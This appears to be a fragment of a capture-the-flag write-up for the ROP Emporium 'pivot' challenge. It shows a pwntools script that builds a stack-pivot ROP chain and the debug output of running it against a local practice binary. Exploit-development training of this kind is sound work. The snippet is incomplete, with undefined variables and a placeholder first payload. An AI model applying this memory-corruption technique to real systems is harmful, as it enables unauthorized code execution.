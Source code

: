 ```python
padding = b"A" * offset
stack_smash = b"".join([
    padding,
    pop_rax_ret,
    p64(pivot_addr),
    xchg_rax_rsp_ret
])

# Verify that we can redirect the program's execution to the pivoted address
rip = p64(0xdeadbeef)

# Send the ROP chain
io.sendline(rip)

# Smash the stack
io.recvuntil(b"Now please send your stack smash")
io.sendline(stack_smash)
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './pivot' argv=[b'./pivot'] : pid 2639
[DEBUG] Wrote gdb script to '/tmp/pwnulahryo7.gdb'
    b *0x4009a7
[*] running in new terminal: /usr/bin/gdb -q  "./pivot" 2639 -x /tmp/pwnulahryo7.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./pivot" 2639 -x /tmp/pwnulahryo7.gdb']
[+] Waiting for debugger: Done
[DEBUG] Received 0xae bytes:
    b'pivot by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Call ret2win() from libpivot\n'
    b'The Old Gods kindly bestow upon you a place to pivot: 0x7f95a1ee5f10\n'
    b'Send a ROP chain now and it will land there\n'
    b'> '
[*] Stack pivoting address at 0x7f95a1ee5f10
[DEBUG] Sent 0x9 bytes:
    00000000  ef be ad de  00 00 00 00  0a                        │····│····│·│
    00000009
[DEBUG] Received 0x2f bytes:
    b'Thank you!\n'
    b'\n'
    b'Now please send your stack smash\n'
    b'> '
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  bb 09 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  10 5f ee a1  95 7f 00 00  bd 09 40 00  00 00 00 00  │·_··│····│··@·│····│
    00000040  0a                                                  │·│
    00000041
[*] Switching to interactive mode

> [DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```
